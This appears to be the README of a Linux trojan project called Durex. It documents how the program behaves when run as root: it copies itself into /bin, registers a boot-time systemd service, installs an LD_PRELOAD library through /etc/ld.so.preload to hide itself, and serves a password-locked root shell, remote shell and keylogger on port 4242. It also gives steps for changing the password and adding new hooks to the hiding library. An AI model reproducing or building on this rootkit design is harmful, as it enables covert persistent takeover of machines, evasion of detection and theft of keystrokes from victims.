 # DUREX
Simple Trojan

## INSTALLATION
### As Normal User
```sh
$> make && ./Durex
JohnDoe
$>
```
Durex only print the user actually connected.

### As Root
```sh
$> make && ./Durex
root
$>
```
Durex only print the user actually connected, but Durex will also:

+ Create a copy of himself in /bin
+ Create a durex.service file in **/lib/systemd/** to add himself as a service, launching himslef at bootime as a deamon
+ Create a durex.so library in /usr/local/lib/ to hide himself and his functions from the system
+ Add this library in /etc/ld.so.preload
+ Create a Durex.log file in /var/log/

Only one instance of Durex is created. And during his copy, Durex will changed a bit his behaviour allowing himself to :

+ Open a server on port 4242, allowing 3 clients to connect to it
	+ The server is locked by a password
	+ The server offers to the clients:
		+ A shell as root
		+ A remote shell as root
		+ A keylogger

### Le binaire a été testé sur une Debian 9.3.0 64bits.

## MODIFICATION
### Password generation
+ Generate a new password with the 'pass' executable:
```sh
$> make pass
cc -o pass other/passwd.c srcs/encrypt.c -I includes/
$> ./pass toto
toto (4): 191 248 92 67 189 94 197 184
$> ./pass kata
kata (4): 201 121 30 74 3 83 154 250
```
+ Use your best editor to modify **durex.h** :
```c
# define SERVER_PASS .. .. .. .. ..
```
+ Recompile

### New library function

* Create your file and compile it
```sh
$> gcc -Wall -fPIC -shared -o ./Durex.so [myfile.c] -ldl
```
* If it compiles well, create the **hex** binary
```sh
$> make hex
cc -o hex other/txttohex.c -I includes/
$> ./hex [fichier.c]
\x23\x64\x65...
```
* Add the hexadecimal generated above in **includes/main.h**
```c
# define DUREX_MY_FILE		"/tmp/myfile.c"
# define DUREX_MY_SRC		"\x23\x64\x65\x66..."
```
* Finally add those defines in **src/library.c**
```c
int				install_library()
{
	char	*const files[] = { "gcc", "-Wall", "-fPIC", "-shared", "-o", DUREX_PROCESSHIDER_LIB,
							 DUREX_FGETS_FILE, DUREX_LXSTAT_FILE, DUREX_NEWFSTATAT_FILE,
							 DUREX_PCAP_FILE, DUREX_READDIR_FILE, DUREX_RECVMSG_FILE,
							 DUREX_RM_FILE, DUREX_XSTAT_FILE, **DUREX_MY_FILE**,
							 "-ldl", NULL };
	char	*const src[] = { NULL, NULL, NULL, NULL, NULL, NULL,
							 DUREX_FGETS_SRC, DUREX_LXSTAT_SRC, DUREX_NEWFSTATAT_SRC,
							 DUREX_PCAP_SRC, DUREX_READDIR_SRC, DUREX_RECVMSG_SRC,
							 DUREX_RM_SRC, DUREX_XSTAT_SRC, **DUREX_MY_SRC** };
   ...
}
```
* Recompile the binary

### Infos
+ If you had previously executed the binary has root you must :
	- Stop the service durex
	- Disable the service durex
	- Remove /etc/ld.so.preload
	- Remove /bin/Durex
+ Optionnaly :
	- Remove /lib/systemd/system/durex.service
	- Remove /var/log/Durex.log
	- Remove /var/lock/Durex.lock

# AUTEUR
* gbourgeo
